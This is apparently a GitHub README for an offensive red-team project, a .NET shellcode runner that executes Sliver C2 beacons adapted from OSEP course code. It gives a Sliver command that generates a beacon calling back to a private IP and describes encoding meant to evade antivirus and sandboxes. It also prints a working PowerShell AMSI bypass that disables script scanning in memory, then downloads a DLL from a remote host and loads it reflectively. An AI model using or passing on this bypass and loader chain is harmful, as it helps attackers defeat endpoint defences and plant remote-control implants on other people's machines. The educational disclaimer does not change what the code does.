 # Sliver_C-_Runner_Caesar

There is nothing special going on here; these are super basic methods.

## Introduction
This is a Digital Honk Project that illustrates cybersecurity techniques within Windows environments, showcasing shellcode execution from an embedded resource. A standout feature is its use of encoded payloads, which focus on evading detection through custom encoding schemes and AMSI bypass techniques. As the creator of the Payload-Encoder and an advocate for educational purposes, this project aims to deepen the understanding of cyber security mechanisms and ethical hacking practices. This is modified code from the OSEP course to execute Sliver Payloads.

### Key Features
- Shellcode execution from embedded resources in .NET applications.
- Custom payload encoding schemes are used to evade signature-based detection.
- Implementation of AMSI bypass techniques for unrestricted payload execution.
- Demonstrates evasion strategies to bypass sandbox detections.

## Getting Started

### Prerequisites
- A Windows environment (Windows 10/11 recommended).
- .NET Framework 4.7.2 or later.
- Visual Studio 2019 or later for development and compilation.

### Setup
1. **Generate Payload**: Use the Sliver C2 framework to generate your shellcode payload:
```
sliver> generate --mtls 192.168.45.221:8888 --os windows --arch amd64 --format shellcode --save beacon.bin
```
2. **Encode Payload**: With the Payload-Encoder tool, encode the `beacon.bin` file for embedding within the project:
The process is detailed at Payload-Encoder.
3. **Embed and Compile**: Include the encoded payload (`honk.user.dat`) as an embedded resource and compile the project using Visual Studio.

### Execution with AMSI Bypass
To execute the payload with an AMSI bypass, use the following PowerShell script, ensuring your environment permits script execution:
```powershell
try{
 [Ref].Assembly.GetTypes() | ? { $_.Name -like "*iUtils" } | % {
     ($c = $_).GetFields('NonPublic,Static') | ? { $_.Name -like "*Context" } | % {
         $g = $_.GetValue($null);
         [IntPtr]$ptr = $g;
         [Int32[]]$buf = @(0);
         [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
     }
 };
 $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.233.137/honk.dll');
 $assem = [System.Reflection.Assembly]::Load($data);
 [honk.Program]::appleBits()
} catch {
 Write-Error "An error occurred: $_"
} finally {
 Write-Host "Press Enter to exit...";
 [Console]::ReadLine()
}
```

## Disclaimer

This project is designed for educational and ethical hacking purposes only. Ensure you have explicit authorization to test and use these techniques on any system. The creator and contributors of the Digital Honk Project assume no responsibility for misuse or damages caused by this project.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
Acknowledgments

    Special thanks to the Sliver C2 framework for the payload generation capabilities.
    Gratitude to the cybersecurity community for the continuous exchange of knowledge and ethical hacking practices.
